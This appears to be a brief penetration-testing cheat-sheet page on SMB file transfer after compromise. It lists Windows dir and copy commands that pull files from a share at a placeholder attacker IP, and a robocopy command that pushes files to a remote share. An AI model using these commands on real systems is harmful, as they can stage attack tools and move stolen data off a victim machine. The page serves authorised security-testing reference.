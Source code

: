 # SMB

## 01 - Usage

```
C:\> dir \\<attacker_IP>\<share_name>

C:\> copy \\<attacker_IP>\<share_name>\<source> <destination>
```

For `/mt` flag switch run the command on windows that is related about hardware information from [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/01 - Enumeration and Discovery/Windows/Host/System and Kernel Version/Kernel/Manual/Living off the Land|system and kernel version]] phase.

```
C:\> robocopy <source> \\<IP>\<share_name>\<destination> /s /r:0 /w:0 /copy:DA /dcopy:DA /mt:<threads>
```

---
## References

- [Chris Titus Robocopy](https://www.christitus.com/robocopy)